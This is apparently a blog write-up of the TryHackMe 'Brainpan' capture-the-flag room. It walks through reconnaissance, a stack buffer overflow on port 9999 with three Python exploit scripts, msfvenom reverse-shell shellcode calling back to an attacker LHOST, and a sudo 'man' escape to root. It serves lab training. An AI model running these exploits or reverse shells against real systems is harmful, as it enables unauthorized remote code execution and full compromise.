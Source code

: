 ```yaml
---

title: Box - Brainpan1
published: true
---
```


Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.

[https://tryhackme.com/room/brainpan](https://tryhackme.com/room/brainpan)

![0xskar](/assets/brainpan01.jpg)

* * *

## Task 1 - Deploy and compromise the machine 

> Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 

##  Nmap Scan

| PORT | STATE | SERVICE | REASON |
|------|-------|---------|--------|
| 9999/tcp | open | abyss | syn-ack ttl 61 |
| 10000/tcp | open | snet-sensor-mgmt SimpleHTTPServer 0.6 (Python 2.7.3) | syn-ack ttl 61 |

* * * 

##  Port 9999

- brainpan program needs password to continue can connect to this with netcat

* * * 

##  Port 10000

- SimpleHTTPServer 0.6 (Python 2.7.3)
- ``gobuster dir -u http://10.10.100.24:10000/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x html,php,txt --no-error -t 100``
- in /bin we find brainpan.exe

* * * 

##  Buffer Overflow

- Open brainpan.exe in immunity and set working folder
- ``!mona config -set workingfolder c:\mona\%p``
- We can send through 5000 a's with our a.py ``print("A" *5000)``
- We have an EBP and EIP overwrite so we should be able to overflow the buffer and and ECX Shitstorm!?

![0xskar](/assets/brainpan02.png)

- Finding the offset
- ``msf-pattern_create -l 5000`` and send and note the EIP "35724134"

![0xskar](/assets/brainpan03.png)

- ``msf-pattern_offset -l 5000 -q 35724134``
- we have an exact match at offset 524
- Now we can edit our code to send payloads so we can find badchars.

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- we control the EIP as its overwritten with our B's 42424242
- now we can find the badchars
- create bytearray in immunity ``!mona bytearray -b "\x00"`` and update our code with badchars variable

```shell
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- restart brainpan in immunity and run exploit again and note the address that ESP registers
- **0022F930**
- run memory comparison in mona ``!mona compare -f C:\mona\brainpan\bytearray.bin -a 0022F930``
- we dont seen to have any badchars the shellcode returns Unmodified...

- try to find jump point with our badchars
- ``!mona jmp -r esp -cpb "\x00``

![0xskar](/assets/brainpan04.png)

- 311712F3 Jump Point
- Convert to little endian ``\xf3\x12\x17\x31``
- Generate shellcode with badchars... since this is a linux machine try linux shellcode? and try on target?
- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=4444 EXITFUNC=thread -b "\x00" -f c``
- update target IP and little endian and shellcode and lets see what happens

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"\xf3\x12\x17\x31" + b"\x90" * 32
shellcode = (b"\xb8\xea\xb3\xa8\x25\xdb\xd9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
b"\x52\x83\xea\xfc\x31\x42\x0e\x03\xa8\xbd\x4a\xd0\xd0\x2a\x08"
b"\x1b\x28\xab\x6d\x95\xcd\x9a\xad\xc1\x86\x8d\x1d\x81\xca\x21"
b"\xd5\xc7\xfe\xb2\x9b\xcf\xf1\x73\x11\x36\x3c\x83\x0a\x0a\x5f"
b"\x07\x51\x5f\xbf\x36\x9a\x92\xbe\x7f\xc7\x5f\x92\x28\x83\xf2"
b"\x02\x5c\xd9\xce\xa9\x2e\xcf\x56\x4e\xe6\xee\x77\xc1\x7c\xa9"
b"\x57\xe0\x51\xc1\xd1\xfa\xb6\xec\xa8\x71\x0c\x9a\x2a\x53\x5c"
b"\x63\x80\x9a\x50\x96\xd8\xdb\x57\x49\xaf\x15\xa4\xf4\xa8\xe2"
b"\xd6\x22\x3c\xf0\x71\xa0\xe6\xdc\x80\x65\x70\x97\x8f\xc2\xf6"
b"\xff\x93\xd5\xdb\x74\xaf\x5e\xda\x5a\x39\x24\xf9\x7e\x61\xfe"
b"\x60\x27\xcf\x51\x9c\x37\xb0\x0e\x38\x3c\x5d\x5a\x31\x1f\x0a"
b"\xaf\x78\x9f\xca\xa7\x0b\xec\xf8\x68\xa0\x7a\xb1\xe1\x6e\x7d"
b"\xb6\xdb\xd7\x11\x49\xe4\x27\x38\x8e\xb0\x77\x52\x27\xb9\x13"
b"\xa2\xc8\x6c\xb3\xf2\x66\xdf\x74\xa2\xc6\x8f\x1c\xa8\xc8\xf0"
b"\x3d\xd3\x02\x99\xd4\x2e\xc5\xac\x2a\x4f\xf4\xd9\x28\xaf\xe7"
b"\x45\xa4\x49\x6d\x66\xe0\xc2\x1a\x1f\xa9\x98\xbb\xe0\x67\xe5"
b"\xfc\x6b\x84\x1a\xb2\x9b\xe1\x08\x23\x6c\xbc\x72\xe2\x73\x6a"
b"\x1a\x68\xe1\xf1\xda\xe7\x1a\xae\x8d\xa0\xed\xa7\x5b\x5d\x57"
b"\x1e\x79\x9c\x01\x59\x39\x7b\xf2\x64\xc0\x0e\x4e\x43\xd2\xd6"
b"\x4f\xcf\x86\x86\x19\x99\x70\x61\xf0\x6b\x2a\x3b\xaf\x25\xba"
b"\xba\x83\xf5\xbc\xc2\xc9\x83\x20\x72\xa4\xd5\x5f\xbb\x20\xd2"
b"\x18\xa1\xd0\x1d\xf3\x61\xf0\xff\xd1\x9f\x99\x59\xb0\x1d\xc4"
b"\x59\x6f\x61\xf1\xd9\x85\x1a\x06\xc1\xec\x1f\x42\x45\x1d\x52"
b"\xdb\x20\x21\xc1\xdc\x60")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('10.10.77.70',9999))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

* * * 

##   Answer the questions below

**Gain initial access**

![0xskar](/assets/brainpan05.png) 

**Escalate your privileges to root.**

- generate new linux shellcode and send
- ``msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.x.x.x LPORT=9999 -f c -a x86 --platform linux -b "\x00"``
- upgrade shell 

```shell
python -c 'import pty;pty.spawn("/bin/bash")' 
export TERM=xterm 
```

- sudo -l gives us ``/home/anansi/bin/anansi_util`` which lets us run man as sudo
- https://gtfobins.github.io/gtfobins/man/#sudo
- break out with a root shell!

![0xskar](/assets/brainpan07.png)

* * * 